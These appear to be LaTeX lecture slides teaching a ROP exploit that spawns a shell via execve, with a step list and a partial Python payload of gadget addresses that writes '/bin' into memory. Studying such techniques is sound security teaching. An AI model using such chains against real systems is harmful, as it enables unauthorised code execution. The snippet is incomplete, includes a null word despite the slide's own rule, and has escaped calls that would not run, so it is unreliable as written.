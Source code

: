 \documentclass[11pt]{beamer}
\begin{document}
\section{Example: Open a shell}
\subsection{Target Program and Compilation}
\begin{frame}[fragile]
    \frametitle{Target Program and Compliation}
\end{frame}
\subsection{General approach}
\begin{frame}[fragile]
    \frametitle{Spawning a shell: Approach}
    \begin{itemize}
        \item Using ROPgadget we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11)
            \item init systemcall argument (address of /bin//sh)
            \item call systemcall
        \end{enumerate}
        \item All of this has to be done using Bytes that are not \Verb+\\0x00+ because thats the character used for identifying the end of a string.
    \end{itemize}
\end{frame}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin}
    \begin{lstlisting}[style=code, language=python]
from struct import pack

p = 'AAAABBBBCCCC'
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f6c) # @ .data
p += str(pack\('<I', 0x00000000) # @ NULL
p += str(pack\('<I', 0x080b526a) # pop eax ; ret
p += '/bin'
p += str(pack\('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}
\end{document}
